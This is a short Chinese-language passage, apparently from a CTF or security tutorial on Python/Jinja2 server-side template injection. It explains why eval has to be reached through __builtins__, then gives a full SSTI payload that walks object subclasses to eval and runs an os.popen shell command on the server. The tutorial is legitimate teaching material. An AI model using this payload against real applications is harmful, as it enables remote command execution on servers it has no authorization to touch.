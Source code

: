 ![image-20231130012323844](./assets/image-20231130012323844.png)

但由于 `eval` 在全局域中是一个 `built-in function` 即 **内置函数** ，所以我们无法直接通过 `__globals__['eval']` 来直接调用内置函数，Python的内置函数和对象通常是全局可用的，但它们通常不是函数内部的一部分。因此，要在函数内部访问内置函数（如`eval`）或内置对象（如`os`），需要通过`__builtins__`来访问。

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls /").read()')}}`
